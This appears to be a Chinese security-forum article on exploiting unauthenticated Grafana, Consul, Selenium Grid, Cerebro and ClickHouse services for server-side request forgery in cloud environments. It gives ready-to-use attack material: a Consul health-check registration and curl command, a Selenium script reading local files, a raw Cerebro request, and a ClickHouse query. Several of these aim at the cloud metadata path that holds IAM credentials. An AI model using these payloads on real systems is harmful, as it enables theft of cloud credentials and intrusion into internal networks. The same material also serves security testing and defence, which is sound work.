






# 云攻防中常见未授权下的回显 SSRF - 先知社区

云攻防中常见未授权下的回显 SSRF

- - -

# 常见未授权下的回显 SSRF 攻击面

回显 ssrf 在云攻防中往往能起到出其不意的效果，能撕开外网的防护，直接发起内网攻击，达到事半功倍。不仅能控制未授权 k8s api-server，还能获取元数据，运气好的情况还能直接获取 iam 认证信息。本文即总结实战过程中遇到过的一些回显 ssrf 的利用。

### Grafana

grafana 允许用户在平台配置数据源，因此在我们未从 grafana 中获取更多信息后，可以利用配置数据源的方式功能来实现 ssrf 攻击内网

利用工具 [https://github.com/RandomRobbieBF/grafana-ssrf](https://github.com/RandomRobbieBF/grafana-ssrf)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221104422-1e3f7414-d063-1.png)

### Consul

consul 是一个服务注册发现组件，未授权若开启脚本检查/脚本执行可直接 RCE，但实战中遇到新版本较多，除信息泄露外，还可通过 consul 提供的监控功能实现 ssrf

通过 consul 提供的/v1/agent/check/register 注册健康检查接口，可实现回显 ssrf，但仅可显示部分数据，过长会被截断

创建 json 文件，内容如下

```plain
{ "id": "redis-1", "name": "Redis health check", "http": "http://xxxx/latest/iam/security_credentials", "tls_skip_verify": false, "method": "GET", "interval": "10s", "timeout": "1s" }
```

curl -X PUT [http://xxxxx.com/v1/agent/check/register](http://xxxxx.com/v1/agent/check/register) -d @json  
查看服务 health checks 即可查看 ssrf 回显内容

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220160847-46166f3e-cfc7-1.png)

### Selenium Gird

Selenium 为常见自动化测试服务，可提供远程调用浏览器，未授权情况可直接新建 session 实现回显 ssrf

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220160929-5ed07772-cfc7-1.png)

```plain
from selenium import webdriver
url='http://xxxxxxx:4444/wd/hub'
chrome_options = webdriver.ChromeOptions()
chrome_options.add_argument('--no-sandbox')
chrome_options.add_argument('-ignore-certificate-errors')
chrome_options.add_argument('--allow-file-access-from-files')
dr = webdriver.Remote(url, options=chrome_options)
dr.set_page_load_timeout(3)
dr.get('file:///')
#dr.get('http://xxxxx/latest/iam/')
print(dr.page_source)
```

### Cerebro

Cerebro 是一个开源 es 图形化服务管理工具，使用服务端连接 es，若公开到公网就会存在 ssrf 漏洞  
存在两个接口可以利用，首页/connect 连接 es 接口，无回显，不在此处列出  
进入功能页面，存在一个 rest 查询接口，页面功能如下：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240220161005-745cfbce-cfc7-1.png)

利用该接口即可实现回显 ssrf

```plain
POST /rest/request HTTP/1.1
Host: xxxxx:9000
Content-Length: 76
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: SESSION=a479fcb2-d259-4833-bc88-c7cb1c896044; JSESSIONID=FF77ABF1DDD1AF7697078904978F866A
Connection: close

{"method":"GET","data":{},"path":"","host":"http://10.0.0.142:18801/health"}
```

### Clickhouse

clickhouse 为开源的一个用于联机分析 (OLAP:Online AnalyticalProcessing) 的列式数据库管理系统，提供了基于 http 接口为数据源的功能，若存在未授权或弱口令，可实现有限制的回显 ssrf  
以下 sql 语句即可实现回显 ssrf,

```plain
SELECT * FROM url('http://xxxxx/latest/iam/security_credentials/','TabSeparated','a String','auto');
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240221104734-90b37cfc-d063-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220161623-55af61fc-cfc8-1.png)

回显 ssrf 在云攻防中能造成意想不到的危害，获取元数据信息，攻击未授 k8s 组件等功能，一些自研反向代理、网关等均存在此类漏洞，不在赘述，仅为总结在实战过程中遇到的一些 ssrf，欢迎补充
